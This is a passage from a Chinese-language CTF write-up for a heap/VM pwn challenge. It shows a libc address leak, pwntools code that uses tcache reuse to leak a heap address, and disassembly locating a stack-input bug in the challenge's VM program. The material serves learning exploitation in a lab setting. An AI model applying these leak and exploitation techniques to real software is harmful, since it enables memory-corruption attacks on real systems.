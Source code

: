 这是输出：

```
[DEBUG] Received 0x3a bytes:
    00000000  63 6f 6e 74  65 6e 74 3a  20 [ff 2b d1  21 f5 7f] 0a  │cont│ent:│ ·+·│!···│
    00000010  2d 2d 2d 2d  6d 65 6e 75  2d 2d 2d 2d  0a 31 2e 20  │----│menu│----│·1. │
    00000020  6e 65 77 0a  32 2e 20 73  68 6f 77 0a  33 2e 20 65  │new·│2. s│how·│3. e│
    00000030  64 69 74 0a  34 2e 20 64  65 6c                     │dit·│4. d│el│
    0000003a
libc: 0x7ff521b27000
```

接着要的到堆的地址就需要将堆块先释放到tcache中在申请出来，这样就能得到残留的fd的地址（堆地址）。

```
new(0, size=0x30)
new(1, size=0x30)
new(2, size=0x30)
dlt(2)
dlt(1)
dlt(0)

p.sendlineafter('choice&gt;&gt; ', '1')
p.sendlineafter("idx: ", str(0))
p.sendlineafter("size: ", str(0x30))
p.sendafter("content: ", b'\xff')
show(0)
p.recvuntil("content: ")
heap = u64(p.recvuntil("\n")[:-1].ljust(8, b'\x00'))
print("heap:", hex(heap))
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%AE%9A%E4%BD%8D"></a>漏洞定位

这道题目比赛的时候第一天没有出来，有很大一部分原因是我笃信漏洞在add_note和del_note中。但是很不幸这程序的note的申请和释放都很正确，并没有造成double free这样的漏洞。

回到正题这道题目我觉得出的挺好的一点就是，这道题目有两个漏洞，一个漏洞出在解释程序中，一个漏洞在note.bin的程序中，需要结合这两者才能劫持程序流拿到flag。接下来逐个分析这两个漏洞

<a class="reference-link" name="note.bin%E4%B8%AD%E7%9A%84%E6%BC%8F%E6%B4%9E"></a>**note.bin中的漏洞**

note.bin程序中的诸如idx等参数的输入是通过vm的一些指令来实现的。具体的是通过0x629这个函数来实现的。0x629如下所示，它传入0x60个0x5ef这个函数(表示输入的长度)。在reg中reg11表示rbp，reg12表示的是rsp，**值得注意的它申请的栈空间正好也是0x60**。

```
0x629    push    reg11
0x62b    mov    reg11,reg12
0x62e    sub    reg12,#0x60
0x638    mov    reg0,reg12
0x63b    mov    reg1,#0x60
0x645    call    #0x5ef
0x64a    mov    reg0,reg12
0x64d    call    #0x95
0x652    leave
0x653    ret
```
